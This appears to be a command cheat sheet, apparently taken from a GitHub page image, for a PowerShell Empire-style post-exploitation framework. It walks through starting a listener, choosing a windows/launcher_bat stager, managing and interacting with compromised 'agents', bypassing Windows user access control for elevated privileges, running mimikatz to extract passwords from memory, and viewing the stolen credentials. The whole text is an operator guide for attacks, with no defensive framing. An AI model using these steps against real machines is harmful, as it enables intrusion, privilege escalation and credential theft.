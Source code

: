 Information about a listener
```powershell
info #lists information about a listener
```

Set a Name for your listener
```powershell
set Name 4nrchy #this command requires one parameter: desired name for your user; sets the name of your listener to whatever you want, just change 4nrcky to your desired name
```

Go back
```powershell
back #just goes back; from listeners/meterpreter to listeners
```

Execute the listener
```powershell
execute # execute the listener; stage will start receiving connections
```

Use a particular type of Stager
```powershell
usestager windows/launcher_bat #this command takes one parameter: the specific stager you want to use; uses a windows/launcher_bat stager; change windows/macro to whatever you desire
```

Lists all agents
```powershell
agents # lists all the agents that are available
```

Rename a particular agent
```powershell
rename 1HVPYFR8 WIN7 #the rename command takes two parameters: the first being the desired agents OLD name, the second being the NEW name for the agent; in this case, the command will rename agent 1HVPYFR8 to WIN7
```

Interact with your agent
```powershell
interact WIN7 #interact with the agent name WIN7
```

*AGENT*: Bypasses user access control 
```powershell
bypassuac WIN7 #this command takes one parameter: the name of the agent you want to execute with; this command bypasses user access control giving the agent elevated privileges
```

*AGENT*: Run mimikatz
```powershell
mimikatz #runs mimikatz which basically gets password from memory; requires elevated privileges; module; may take some time extracting passwords
``` 

*AGENT*: Access database with mimikatz results
```powershell
creds #this command allows the user to access the database that has the results of the mimikatz scan; assumes that mimikatz is successful
```
